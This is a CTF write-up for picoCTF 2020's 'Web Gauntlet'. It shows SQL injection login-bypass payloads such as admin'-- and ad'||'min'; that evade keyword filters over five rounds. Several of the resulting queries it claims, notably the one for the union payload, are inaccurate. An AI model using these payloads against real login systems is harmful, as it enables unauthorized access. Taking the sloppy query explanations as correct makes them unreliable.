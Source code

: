 ```yaml
---
title: "Web Gauntlet"
date: "2024-10-16   "
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"
---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**
**Category: Web Exploitation**


## Introduction
This series focus on the fundamentals of SQL Injection vulnerability <a href = "https://owasp.org/www-community/attacks/SQL_Injection" target = "_blank" >A03:2021-Injectionicon</a>
## WALKTHROUGH
This challenges is from picoCTF 2020 Mini-Competition 
#### Hints:
1. You are not allowed to login with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
4. sqlite
5. If your cookie keeps getting reset, try using a private browser window
![Challenge 1](/assets/img/posts/post-1/chal.png )
The challenge gives us 2 links as showen above the first on is a login page and the second showes us what the round filters 
for the first round it filters out the **or** so we can still use **--** to comment the rest of the query 
---
username: admin'--
password: anything ex:123
then the query should look like this:
---
```
SELECT * FROM users WHERE username='admin'-- AND password='123'
```
---
now we are in round 2 and it filters out the following **or and like = --**
we shall try to use alternative method like union to continue
---
username: admin'union select * from users where '1;
password: anything ex:123
then the query should look like this:
---
```
SELECT * FROM users WHERE username='admin'; AND password='123'
```
---

in round 3 it filters **or and = like > < --** we can still comment using **;**  

---
username: admin';
password: anything ex:123
then the query should look like this:
---
```
SELECT * FROM users WHERE username='admin'; AND password='123'
```
---
round 4 is a little bit creative as it filters out **or and = like > < -- admin** admin??🙂 dont panic no problem😅
In SQL, the || operator is commonly used for string concatenation, especially in databases like Oracle and PostgreSQL. If the application’s underlying SQL query uses this operator correctly, entering ad'||'min' would result in the following behavior:

'''
SELECT * FROM users WHERE username = 'admin';
'''
and this is what we want 
---
username: ad'||'min';
password: anything ex:123
then the query should look like this:
---
```
SELECT * FROM users WHERE username='admin'; AND password='123'
```
---
we are in the final round good jop ✌
in the final round it filters **and = like > < -- union admin** and yes we will use the same method like the past round
---
username: ad'||'min';
password: anything ex:123
then the query should look like this:
---
```
SELECT * FROM users WHERE username='admin'; AND password='123'
```
Congrats! You won! Check out filter.php
![solution](/assets/img/posts/post-2/sol.png)
many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot solving this challenge